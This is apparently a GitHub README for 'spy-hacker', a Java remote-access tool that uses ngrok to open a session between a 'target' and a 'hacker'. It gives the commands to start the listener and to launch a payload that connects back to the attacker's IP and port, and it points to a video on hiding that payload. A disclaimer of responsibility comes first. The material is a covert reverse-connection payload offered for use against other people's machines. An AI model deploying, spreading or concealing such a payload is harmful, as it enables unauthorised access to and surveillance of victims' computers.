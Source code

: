 # spy-hacker
simple scripts based on the socket to open a session between the target and the hacker over the internet using ngrok tools

- Note :i am not responsible for any bad use of these scripts
1) You need JRE(java runtime environment)
- to launch the scripts
1)  first runs java server script using this command : java SpyHacker
2)  type the local port and waiting the connection of the client
3)  to launch the payload you should pass the ip and number port as an input parameter
4)  type this command to lunch the payload : java -jar payload.jar 192.168.1.1 8080 (as an example for ip address and port number)
5) you can hide the payload (see the video below)
# screenshot
![](spy hacker Capture.png)


